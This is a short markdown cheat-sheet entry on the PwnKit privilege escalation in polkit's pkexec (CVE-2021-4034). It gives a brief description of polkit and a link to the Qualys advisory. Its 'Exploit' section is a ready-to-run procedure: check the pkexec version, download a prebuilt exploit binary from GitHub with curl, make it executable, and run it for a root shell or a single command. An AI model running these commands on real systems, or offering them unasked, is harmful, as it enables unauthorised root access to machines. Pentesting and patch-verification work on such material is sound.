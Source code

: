 # Brief

>[!INFO] Discovered in **January 2022**
>**Polkit** can be used to determine whether you have the requisite **permissions** to **execute something**. It is integrated with systemd and is much more configurable than the traditional sudo system. Sometimes referred to as the "sudo of systemd", providing a granular system with which to assign permissions to users.

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt - More details

# Exploit

```bash
# Check with :
pkexec --version
```

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit

# execute
./PwnKit # interactive shell
./PwnKit 'id' # single command
```
